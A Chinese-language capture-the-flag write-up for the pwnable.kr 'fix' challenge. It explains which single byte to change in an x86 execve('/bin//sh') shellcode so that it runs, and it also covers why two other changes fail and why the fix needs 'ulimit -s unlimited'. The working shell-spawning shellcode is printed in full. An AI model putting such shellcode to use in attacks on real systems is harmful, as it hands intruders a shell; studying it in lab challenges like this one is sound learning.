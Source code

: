 # Pwnable kr fix 题解

要求: 修改下面的 shellcode, 只修改一个字节使其可以成功执行.

```
0 xor    %eax,%eax
1 push   %eax
2 push   0x68732f2f #/bin//sh 
3 push   0x6e69622f
4 mov    %ebx,%esp
5 push   %eax
6 push   %ebx
7 mov    %ecx,%esp
8 mov    %al, 0xb
9 int    0x80
```

PS: `/bin//sh` 没有问题, 无论多少个 `/` 都可以

## 错误做法

有几种方式是不可以的：

1. Line 5: push %eax --> leave

明确 `ecx` 是 `char**`，所以他会根据地址遍历，也就是逐个去访问 `[ecx]` 开始的表，直到遍历到 0

`[ecx] = '/bin/sh'`，下面就看 `[ecx]+4` 是啥了。

Line 5 的 `push %eax` 就是把 `[ecx]+4` 变为0，所以要变这个，最后会失败。

2. Line 1: push %eax --> leave

明确 `ebx` 是 `char*`，按照正常来说，应该是`'/bin//sh\0'`。

原来的`push %eax`相当于`push 0`，所以 `/bin//sh` 下面是0，但你改成`leave`，下面不是0，他就要根据下面存的东西去寻址，显然失败。

## 正确的做法
Line 5: push %eax --> pop esp

```
0 xor    %eax,%eax
1 push   %eax
2 push   0x68732f2f #/bin//sh 
3 push   0x6e69622f
4 mov    %ebx,%esp
5 pop    %esp
6 push   %ebx
7 mov    %ecx,%esp
8 mov    %al, 0xb
9 int    0x80
```

前提是需要执行 `ulimit -s unlimited`，允许 `esp` 变成 `0x6e69622f` 这种值。

1. 第一个问题：`pop esp` 后，`ebx` 还是指向 `/bin` 吗？`/bin` 已经被 pop 到 `esp` 了，为什么 `ebx` 指向的还是`/bin`？

还是不够深入理解。`pop`之后原位置数据又不会清空！所以`ebx`指向原来的那个位置，那个位置里面还是`/bin`！

2. 第二个问题：这个和错误做法 1 有什么不同？

改变后的`esp`是`0x6e69622f`，在`gdb`中调试，可以看到`0x6e69622f`及其后面几个都是0，所以错误做法 1 的错误原因可以规避掉。
